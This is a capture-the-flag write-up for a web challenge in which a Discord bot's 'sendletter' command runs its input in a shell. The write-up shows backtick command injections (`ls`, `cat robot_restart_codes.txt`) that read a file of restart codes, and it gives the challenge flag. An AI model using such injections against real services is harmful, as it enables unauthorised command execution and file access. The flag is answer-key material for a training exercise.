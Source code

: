 # Santa's Helper Mechagnome
Web

## Challenge 
	One of our main production Mechagnomes is now malfunctioning. You have to access its control panel by directly messaging Helper Mechagnome#9926 (You can find him resting on our main discord server).

	Get the restart codes, and restart it so that our toy factory can continue working!

	Author: Milkdrop

## Solution

A discord bot with a unsafe eval function.

	>> help
	MechaGnome v1.0  
	Santa's #1 Galvanized Helper Gnome

	Current State: CORRUPTEd?

	MechaGnome #9926 Control panel. You can execute the following commands:
	- help - Displays this message.
	- joke - Jokes in case of emergency.
	- add - Add the numbers x and y together. Used to test MechaGnome's internal ALU.
	    x - First Operand
	    y - Second Operand
	- list - List Departments
	- sendletter - Send an electronic letter to another department.
	     address@santa.com - Target Address
	     message - Message to Send
	- restart - Restart MechaGnome, recovering it from any corrupted state.

Vulnerability is in use of backticks
	
	>> sendletter hi `ls`

	MechaGnome v1.0  
	Santa's #1 Galvanized Helper Gnome

	Current State: CORRUPTEd?

	Sent the following message:
	mecha.py robot_restart_codes.txt

	To The following Address: hi

With this, we can read the restart code

	>> sendletter hi `cat robot_restart_codes.txt`

	MechaGnome v1.0  
	Santa's #1 Galvanized Helper Gnome

	Current State: CORRUPTEd?

	Sent the following message:
	Cobalt Inc. MechaGnome Restart Codes:\r XJACO-10U4C-C091U-VNOAC-J2QCS

	To The following Address: hi

And restart the server

	>> restart XJACO-10U4C-C091U-VNOAC-J2QCS

	MechaGnome v1.0  
	Santa's #1 Galvanized Helper Gnome

	Current State: CORRUPTEd?

	Restarting...
	Nice work! Flag: X-MAS{Wh0_Kn3W_4_H3lp3r_M3ch4gN0m3_W0uLd_b3_S0_vULN3R4bL3}


## Flag

	X-MAS{Wh0_Kn3W_4_H3lp3r_M3ch4gN0m3_W0uLd_b3_S0_vULN3R4bL3}
